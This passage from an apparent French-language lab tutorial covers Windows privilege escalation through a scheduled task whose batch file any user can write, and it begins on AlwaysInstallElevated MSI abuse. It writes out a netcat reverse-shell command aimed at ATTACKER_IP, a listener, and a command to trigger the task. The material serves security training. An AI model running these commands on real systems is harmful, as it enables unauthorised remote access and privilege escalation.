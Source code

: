 ```powershell
C:\> schtasks /query /tn vulntask /fo list /v
Folder: \
HostName:                             THM-PC1
TaskName:                             \vulntask
Task To Run:                          C:\tasks\schtask.bat
Run As User:                          taskusr1
```

Vous obtiendrez de nombreuses informations sur la tâche, mais ce qui nous importe est le paramètre "Tâche à exécuter" qui indique ce qui sera exécuté par la tâche planifiée, et le paramètre "Exécuter en tant qu'utilisateur", qui indique l'utilisateur qui sera utilisé pour exécuter la tâche.

Si notre utilisateur actuel peut modifier ou écraser l'exécutable "Task to Run", nous pouvons contrôler ce qui est exécuté par l'utilisateur taskusr1, ce qui entraîne une simple escalade des privilèges. Pour vérifier les permissions sur l'exécutable, nous utilisons `icacls` :

```powershell
C:\> icacls c:\tasks\schtask.bat
c:\tasks\schtask.bat NT AUTHORITY\SYSTEM:(I)(F)
                    BUILTIN\Administrators:(I)(F)
                    BUILTIN\Users:(I)(F)
```
Comme on peut le voir dans le résultat, le groupe `BUILTIN\Users` a un accès complet (F) au binaire de la tâche. Cela signifie que nous pouvons modifier le fichier **.bat** et insérer n'importe quelle charge utile. Pour plus de commodité, `nc64.exe` se trouve dans `C:\tools`. Modifions le fichier bat pour lancer un shell inversé :

```powershell
echo c:\tools\nc64.exe -e cmd.exe ATTACKER_IP 4444 > C:\tasks\schtask.bat
```

Nous démarrons ensuite un listener sur la machine de l'attaquant sur le même port que celui que nous avons indiqué dans notre reverse shell :

```bash
nc -lvnp 4444
```

Lors de la prochaine exécution de la tâche planifiée, vous devriez recevoir le reverse shell avec les privilèges taskusr1. Dans un scénario réel, il faut alors attendre patiemment que la tâche se déclenche.

Dans un CTF, il est possible que pour gagner du temps, ils aient donné les droits d'exécution à la tâche planifiée. Dans ce cas, il suffit de l'exécuter manuellement pour obtenir un shell :

```powershell
schtasks /run /tn vulntask
```

## Les fichiers "AlwaysInstallElevated"

Les fichiers d'installation Windows (également connus sous le nom de fichiers .msi) sont utilisés pour installer des applications sur le système. Ils s'exécutent généralement avec le niveau de privilège de l'utilisateur qui les lance. Cependant, ils peuvent être configurés pour s'exécuter avec des privilèges plus élevés à partir de n'importe quel compte d'utilisateur (même ceux qui ne sont pas privilégiés). Cela pourrait nous permettre de générer un fichier MSI malveillant qui s'exécuterait avec des privilèges d'administrateur.
